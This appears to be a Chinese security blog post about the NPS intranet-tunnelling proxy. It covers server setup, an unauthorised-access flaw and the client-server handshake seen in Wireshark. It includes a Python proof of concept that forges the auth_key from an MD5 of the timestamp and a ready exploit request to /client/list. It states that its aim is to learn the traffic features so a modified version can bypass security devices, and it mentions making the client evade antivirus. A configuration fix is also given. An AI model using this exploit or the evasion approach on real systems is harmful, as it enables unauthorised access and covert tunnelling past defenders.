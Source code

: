 #  NPS之Socks流量分析以及未授权复现   
 蚁景网安   2025-06-04 08:54  
  
##### 前言  
  
因为想要写一个socks的流量算法去绕过安全设备，所以这里对NPS的流量特征总结一下，方便自己后期的魔改。  
##### 环境  
> ubuntu 16.04  vps  server  
> windows server 2012R2  clinet  
  
```
mkdir npscd npswget https://github.com/ehang-io/nps/releases/download/v0.26.10/linux_amd64_server.tar.gztar -zxvf linux_amd64_server.tar.gz./nps install
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6uOh5y3ib9jjUCtEeTTUrFxI99868dUpqYSrzOtIQv5kkqeRk262BPIg/640?wx_fmt=png "")  
  
```
cd /etc/nps/conf/vim nps.conf
```  
  
配置文件  
```
#webweb_host=a.o.comweb_username=xxxx    //管理端用户名web_password=xxxxxx  //管理端密码web_port = xxxxx     //管理端端口web_ip=0.0.0.0web_base_url=web_open_ssl=falseweb_cert_file=conf/server.pemweb_key_file=conf/server.key#web_base_url=/nps
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6Mcic9rCY9Mj7rE2hCbGqONLjgGjlicFojGayDRqV1OSFiaphYm8JIb4Pg/640?wx_fmt=png "")  
  
```
##bridgebridge_type=tcp   //客户端连接协议tcpbridge_port=xxxx  //客户端连接端口bridge_ip=0.0.0.0
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6siciblXiawmg6w2ghWibjYoXVVWjzjweialr5wvc725RQo74BJoCkGZS7oA/640?wx_fmt=png "")  
  
  
bridge_port  
的默认端口默认为8024  
，这里不建议改为默认的，连接客户端的时候可能会触发安全设备规则  
##### NPS未授权复现  
  
POC  
```
#encoding=utf-8import timeimport hashlibnow = time.time()m = hashlib.md5()m.update(str(int(now)).encode("utf8"))auth_key = m.hexdigest()print("Index/Index?auth_key=%s&timestamp=%s" % (auth_key,int(now))
```  
  
直接访问  
> http://vps:port?payload  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6X1kQ2E8R6EIztwib11HAkqQeyhF5CrkS8ms5IkpqO95HXhed3U7jibnw/640?wx_fmt=png "")  
  
exp请求接口  
```
POST /client/list HTTP/1.1Host: vps:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0Accept: application/json, text/javascript, */*; q=0.01Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencodedX-Requested-With: XMLHttpRequestContent-Length: 98Origin: http://vps:portConnection: closeReferer: http://vps:port/client/listsearch=&order=asc&offset=0&limit=10&auth_key=805df7d1f7bf3b662939ca091174e6b4&timestamp=1659948547
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw67VNEPhct42VKa9UTMlIxlRzlZUQ1bEDbjibLSgoczNiaEib3XqiaCp2Ylw/640?wx_fmt=png "")  
  
参考链接：  
> https://mp.weixin.qq.com/s/PTq01wcV4XJwutbSjHjfvA  
  
##### 修复措施  
  
vim /etc/nps/conf/nps.conf取消注释  
auth_key,添加  
auth_crypt_key`注释  
> auth_key=test #auth_crypt_key =!QAZ4rfv%TGB^YHN  
  
  
修改为  
> auth_key=test #auth_crypt_key =!QAZ4rfv%TGB^YHN  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6KsZYmTKc20HIQkIcBsfpBHmXKJTTTvFOv1lrI9gJbQpO9WCtPc2aLA/640?wx_fmt=png "")  
  
  
目前最新版本的也存在改配置不当问题，这里需要修改配置，修复之后是无法通过未授权读取内容信息的。  
##### socks流量分析  
> nps start  
  
  
访问http://vps:port/login  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6gqDWQbU4rfHJagBchibBrxz69QTHAKVxia5Ce0LmrE12TQRnwfTWZAvw/640?wx_fmt=png "")  
  
新增客户端  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6pq1ebGrW7JZ8yhFWjTqaXvfYBO4Gk5ALibvwhRBydRLvzribg8Mjic1kQ/640?wx_fmt=png "")  
  
  
这里用户名和密码随意，这里是客户端登录的认证用户名，在客户端连接的时候是根据密钥  
来实现的。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6QchF3w50Kb8QD764W6lU0ZNJYPWyoDUzBKVXs9ZOib1MzUiaHOyIXlwA/640?wx_fmt=png "")  
  
  
客户端选择windwos server 2012R2  
  
修改客户端配置文件  
```
[common]server_addr=vps:portconn_type=tcpvkey=xxxxauto_reconnection=truemax_conn=1000flow_limit=1000rate_limit=1000basic_username=11basic_password=3web_username=xxxx    web_password=xxxxxcrypt=truecompress=true#pprof_addr=0.0.0.0:9999disconnect_timeout=60
```  
  
客户端启动  
> npc.exe -server=vps:port -vkey=xxxxx -type=tcp  
  
  
正常情况下会报毒，所以这里针对杀软这一块儿，客户端需要做一下免杀处理。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6XibKNbedBibLe41hNdacH1zEgxbZE7IoIy0Ky4X4M4nLBicOoPdUBibq5g/640?wx_fmt=png "")  
  
  
查看连接状态  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6NibicTRMKX9JFib5Xq6s1awvqVt4SicZJIVuUM1aicNTwXF9vFNfubjjQiaA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6IOaib0gPQqNKHuWR0OpUPF6XC0br588xP9Bh4E9gey4B1PTrLF1icUicg/640?wx_fmt=png "")  
  
  
使用goby  
测试socks5  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6ELpZCXqJc8EEPncPqyM4DCM6icnkNfw6bXeFFTv0fiazZic9YWZ8EWVJw/640?wx_fmt=png "")  
  
  
测试代理  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6XhKsJnOAicibffZy7RAA3r01ttTlK3q0hDHiae6vWCicDJBocdm2riaJ5ibA/640?wx_fmt=png "")  
  
  
已成功实现内网穿透。  
  
这里使用wireshark  
抓取流量包，  
  
初始流量服务器向客户端发送TST  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6GzuBKb9M0kiaglibDMPxLopmSk1vMVkCibIOias2tOXT6CoKdgM3AKmzyw/640?wx_fmt=png "")  
  
  
同时客户端向服务端确认版本，同时返回客户端版本0.26.0  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6Oeh2uraSpmvsXsHpr1TuNVUnfgjR7hlSiciazs4qJeIm7icRDwDhBA6rw/640?wx_fmt=png "")  
  
代码位置nps/lib/version/version.go  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6w6khCDk8vhgQ4gwfezTfg9kka5dZHGRmNK5aXaYj97JoDqmhCzoPBg/640?wx_fmt=png "")  
  
  
服务端接收到请求后，客户端请求的数据内容为nps的版本为0.26.10  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw63eFQghicNz8QjYgXxNGA2He6M4nqmttPIUTQj5ePKiaDghicSI1D1OA8Q/640?wx_fmt=png "")  
  
  
服务端接收到请求后返回给客户端服务端版本的md5值，即  
> md5(0.26.0)=89a4f3fc3c89257d6f712de6964bda8e  
  
  
可以发现在产生nps  
客户端连接的时候,会产生数据校验，这里数据校验就是有服务器到  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6icnVOu8HHwoJZOhfbay7ng8XAlgCtKRebWLibX1fbCxJLl7mVrSPnibLg/640?wx_fmt=png "")  
  
  
这是客户端传输给服务端密钥连接  
> md5(vkey)  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6VBPMeQVtlbbEIsbfeibIbsiaOVuRJkqPjPhE1hKLiaV7NbUuqibnUgNp7Q/640?wx_fmt=png "")  
  
  
服务端在接收到客户端的请求后校验数据后返回success  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6ibuZg3vByAnjfAMRfD5zA5molsGrv1SwsrOUdUI3KSJWu4Ud5w0Ig8Q/640?wx_fmt=png "")  
  
  
这里客户端和服务端的连接流量就比较清晰了，那么想要bypass安全设备的告警，在修改加密方式和修改版本关键字即可，因为在做流量隐藏的时候跟bypassav不一样，不会考虑文件的哈希以及文件在沙箱中的落地状态。  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6iavic0tIJIoZCwKvUYnFFiaibgSm6mrFp1ZjAg4ITRicicuLN88YodIuqtF4DcUs9sruBa0bFLtX59lQQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1 "")  
  
学习  
网安实战技能课程  
，戳  
“阅读原文“  
  
